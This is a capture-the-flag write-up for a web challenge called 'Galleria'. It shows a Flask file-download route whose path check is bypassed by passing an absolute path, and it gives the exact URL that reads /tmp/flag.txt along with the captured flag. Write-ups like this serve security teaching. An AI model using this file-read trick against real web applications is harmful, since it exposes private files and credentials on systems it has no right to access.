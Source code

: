 # Galleria
## Website Link
https://galleria.chal.nbctf.com/

## Solution
   - The `gallery` function is mapped to the '/gallery' URL and can handle both GET requests with or without a 'file' query parameter.
   - If a 'file' query parameter is provided, the function checks if the file is an allowed path and, if so, sends the file to be downloaded.
   - If no 'file' parameter is provided, it lists all files in the upload folder and displays them using the 'gallery.html' template.
```python
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```
From DockerFile, we can find the path to the flag.txt
```
COPY flag.txt /tmp/flag.txt
```
So, we can change file parameter to ```/tmp/flag.txt``` to read the flag content.
```
https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
```

## Flag
```
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```
